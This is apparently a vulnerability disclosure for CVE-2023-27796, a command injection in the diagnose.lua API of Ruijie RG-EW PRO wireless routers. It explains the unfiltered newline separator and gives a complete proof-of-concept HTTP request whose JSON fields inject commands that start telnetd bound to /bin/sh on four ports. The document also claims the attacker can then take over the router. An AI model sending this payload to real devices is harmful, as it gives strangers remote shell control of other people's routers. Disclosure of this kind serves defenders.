




# CVE-ID

[CVE-2023-27796](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27796 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27796")

# Information

**Vendor of the products:**    Ruijie Networks

**Vendor's website:**    [https://www.ruijienetworks.com](https://www.ruijienetworks.com "https://www.ruijienetworks.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**

RG-EW1200G PRO Wireless Routers

RG-EW1800GX PRO Wireless Routers

RG-EW3200GX PRO Wireless Routers

**Affected firmware version:**

EW_3.0(1)B11P204 (the latest release version)

**Firmware download address:**   

[RG-EW1200G PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77453 "https://www.ruijienetworks.com/support/documents/slide_77453")

[RG-EW1800GX PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77455 "https://www.ruijienetworks.com/support/documents/slide_77455")

[RG-EW3200GX PRO Wireless Routers](https://www.ruijienetworks.com/support/documents/slide_77457 "https://www.ruijienetworks.com/support/documents/slide_77457")

# Overview

`Ruijie Networks RG-EW PRO Series Wireless Routers EW_3.0(1)B11P204` was discovered to contain a `command injection vulnerability` via the `data.ip`, `data.protocal`, `data.iface` and `data.package` parameters in the `runPackDiagnose` function of `diagnose.lua`. Successful exploit could allow an authorized attacker to execute arbitrary commands on remote devices.

# Vulnerability details

**The vulnerability was detected in the file `/usr/lib/lua/luci/modules/diagnose.lua`.**

It is easy to see that all four fields `data.ip`, `data.protocal`, `data.iface` and `data.package` will eventually be concatenated into the `_shell` variable by the `%s` formatting string and executed as arguments to the `doShell` function.



In the file `/usr/lib/lua/luci/utils/tool.lua`. Notice that in the `doShell` function, some dangerous characters are filtered before the command is executed. However, **the command delimiter `\n` is not filtered**.



Therefore, we can use `\n` as the command separator, inject malicious commands into the `data.ip`, `data.protocal`, `data.iface` and `data.package` fields, and execute them (In `JSON` data, `\n` will be converted to the `Unicode` encode `\u000a`, so it's also okay to use `\u000a` as the separator).

# Poc

Send the following request message. 

```
POST /cgi-bin/luci/api/diagnose?auth=xxx HTTP/1.1
Host: 192.168.110.1
Content-Length: 218
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-type: application/json
Accept: */*
Origin: http://192.168.110.1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __APP_LANG__=zh_cn
Connection: close

{"method":"runPackDiagnose","params":{"ip":"\ntelnetd -l /bin/sh -p 1111\n","protocal":"\ntelnetd -l /bin/sh -p 2222\n","iface":"\ntelnetd -l /bin/sh -p 3333\n","package":"\ntelnetd -l /bin/sh -p 4444\n","size":"666"}}
```

# Attack Demo

Use `BurpSuite` to send the above `POC`.



Then, the attacker can log in to the remote device directly through `telnet` and control it entirely (remote login through port `2222`, `3333` or `4444` is also available).


